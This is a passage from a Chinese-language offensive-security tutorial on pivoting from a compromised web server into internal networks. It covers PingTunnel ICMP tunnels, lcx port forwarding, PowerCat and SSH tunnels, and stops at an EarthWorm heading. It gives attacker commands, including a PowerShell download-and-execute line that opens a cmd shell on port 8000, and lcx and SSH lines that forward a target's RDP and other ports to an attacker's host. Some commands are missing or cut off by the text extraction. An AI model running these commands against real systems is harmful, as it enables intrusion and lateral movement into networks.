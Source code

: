 #### 1.PingTunnel

[PingTunnel](http://freshmeat.sourceforge.net/projects/ptunnel/) 是一款基于 ICMP 协议的通信隧道工具。

ICMP 经常是被忽略的防火墙忽略的通信协议，所以有时可以通过它绕过防火墙的限制；另外还有一个更大好处是，通过 PingTunnel 可以间接访问到内网服务器。比如攻击者 A 攻下服务器 B，服务器 B 跟内网服务器 C 连通，但 A 无法直连 C，这时通过建立起 ICMP 隧道即可解决此问题。

它的使用方法如下：

-   先在跳板机（一般取开放 Web 的服务器，即最早被我们拿到 webshell 权限的服务器）上运行以下命令开启后门。
    

-   再在攻击者机器上运行以下命令去连接。
    

```
ptunnel -p {跳板机IP} -lp {本地监听端口} -da {目标IP} -dp {目标机器端口} -x {连接密码}
```

#### 2.lcx 端口转发

lcx 是一款常用的轻便的端口转发工具，它是基于 Socket 实现的，常用于转发数据到防火墙许可的服务器或端口上，其使用方法如下：

```
＃将本机端口 111 的通信数据转发到本机端口 222
lcx.exe -listen 111 222
＃将目标机器端口3389的通信数据转发到公网机器端口4444
lcx.exe -slave {公网IP} 4444 127.0.0.1 3389
＃访问本地端口111即访问目标IP的3389端口
lcx.exe -tran 111 {目标IP} 3389
```

#### 3.PowerCat

PowerCat 是 netcat 的 PowerShell 版本，它允许本地执行，也可远程执行。常用的远程执行命令如下，下载 PowerShell 脚本进行执行，它会在本地监听 8000 端口，并关联 cmd：

```
powershell “IEX (New-Object
System.Net.Webclient).DownloadString(‘https:
-l -p 8000 -e cmd”
```

然后攻击者主动连接 8000 端口，即可获取 shell 权限。

#### 4.SSH

几乎所有的 Linux/Unix 服务器都会支持 SSH 协议，在针对此类操作系统的攻击时就可以派上用场，用它来做代理和转发。

常用命令如下：

```
＃通过跳板机访问目标IP
ssh -CNfg -L 2121:{目标IP}:21 root@{跳板机IP}
＃访问攻击者IP的2121端口，即是访问目标IP
ssh -CNfg -R 2121:BIP:{目标IP} root@{攻击者IP}
```

#### 5.EarthWorm

